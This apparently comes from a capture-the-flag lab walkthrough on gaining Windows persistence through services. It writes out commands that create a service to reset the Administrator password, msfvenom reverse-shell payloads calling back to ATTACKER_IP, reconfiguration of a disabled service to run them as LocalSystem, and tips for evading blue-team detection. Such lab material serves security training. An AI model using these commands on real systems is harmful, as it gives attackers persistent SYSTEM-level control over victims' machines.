 # Abusing Windows Services for Persistence

Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.

A service is essentially an executable that runs in the background. When configuring a service, you define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.

There are two main ways to abuse services to establish persistence:
1. **Create a new service**.
2. **Modify an existing service** to execute our payload.

---

## Creating Backdoor Services

We can create and start a service named `THMservice` using the following commands:

```bash
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```

> **Note**: There must be a space after each equal sign for the command to work.

The `net user` command will be executed when the service is started, resetting the Administrator's password to `Passwd123`. Notice how the service has been set to start automatically (`start= auto`), so that it runs without requiring user interaction.

### Creating a Reverse Shell Service

Instead of resetting a user's password, we can create a reverse shell with `msfvenom` and associate it with the created service. Service executables are unique since they need to implement a particular protocol to be handled by the system. To create an executable compatible with Windows services, use the `exe-service` format in `msfvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```

Copy the executable to your target system (e.g., `C:\Windows`) and point the service's `binPath` to it:

```bash
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```

This should create a connection back to your attacker's machine.

### THM Flag

Use the reverse shell you just gained to execute:

```bash
C:\flags\flag7.exe
```

---

## Modifying Existing Services

While creating new services for persistence works well, the blue team may monitor new service creation across the network. To avoid detection, you can reuse an existing service instead of creating one. Disabled services are good candidates, as they can be altered without the user noticing.

### Listing Available Services

Use the following command to get a list of available services:

```bash
sc.exe query state=all
```

Example output:

```
SERVICE_NAME: THMService1
DISPLAY_NAME: THMService1
    TYPE               : 10  WIN32_OWN_PROCESS
    STATE              : 1  STOPPED
    WIN32_EXIT_CODE    : 1077  (0x435)
    SERVICE_EXIT_CODE  : 0  (0x0)
    CHECKPOINT         : 0x0
    WAIT_HINT          : 0x0
```

You should find a stopped service called `THMService3`. To query the service's configuration, use:

```bash
sc.exe qc THMService3
```

Example output:

```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMService3
    TYPE               : 10  WIN32_OWN_PROCESS
    START_TYPE         : 2 AUTO_START
    ERROR_CONTROL      : 1   NORMAL
    BINARY_PATH_NAME   : C:\MyService\THMService.exe
    LOAD_ORDER_GROUP   :
    TAG                : 0
    DISPLAY_NAME       : THMService3
    DEPENDENCIES       : 
    SERVICE_START_NAME : NT AUTHORITY\Local Service
```

### Key Parameters for Persistence

1. **Executable (`BINARY_PATH_NAME`)**: Should point to your payload.
2. **Service Start Type (`START_TYPE`)**: Should be set to `AUTO_START` for automatic execution.
3. **Service Account (`SERVICE_START_NAME`)**: Preferably set to `LocalSystem` for SYSTEM privileges.

### Modifying the Service

First, create a new reverse shell with `msfvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
```

Then, reconfigure `THMservice3` parameters:

```bash
sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

Verify the changes:

```bash
sc.exe qc THMservice3
```

Example output:

```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMservice3
    TYPE               : 10  WIN32_OWN_PROCESS
    START_TYPE         : 2   AUTO_START
    ERROR_CONTROL      : 1   NORMAL
    BINARY_PATH_NAME   : C:\Windows\rev-svc2.exe
    LOAD_ORDER_GROUP   :
    TAG                : 0
    DISPLAY_NAME       : THMservice3
    DEPENDENCIES       :
    SERVICE_START_NAME : LocalSystem
```

### THM Flag

Start a Metasploit listener on your attacker's machine and manually start the service to receive a reverse shell. From there, run:

```bash
C:\flags\flag8.exe
```